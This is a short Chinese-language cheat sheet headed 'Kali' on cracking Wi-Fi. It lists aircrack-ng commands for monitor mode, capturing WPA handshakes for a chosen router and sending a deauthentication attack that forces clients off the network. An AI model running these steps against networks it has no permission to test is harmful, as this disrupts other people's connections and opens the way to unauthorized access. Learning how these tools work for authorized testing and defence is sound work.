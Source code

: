 # Kali

## WIFI 破解

### 准备工作

1. 列出监听模式的网卡: `airmon-ng`
2. 启动监听模式: `airmon-ng start wlan0`
3. 查看监听列表: `iwconfig`

### 抓包

成功抓包会出现`WPA handshake`提示

- 扫描 WIFI: `airodump-ng 接口名(如wlan0mon)`
- 抓包`airodump-ng -c 信道(CH值) --bssid 路由Mac -w ~/Desktop wlan0mon`

### 攻击

强制设备重新连接到网络

- 攻击三次: `aireplay-ng -0 3 -a 路由 Mac wlam0mon`
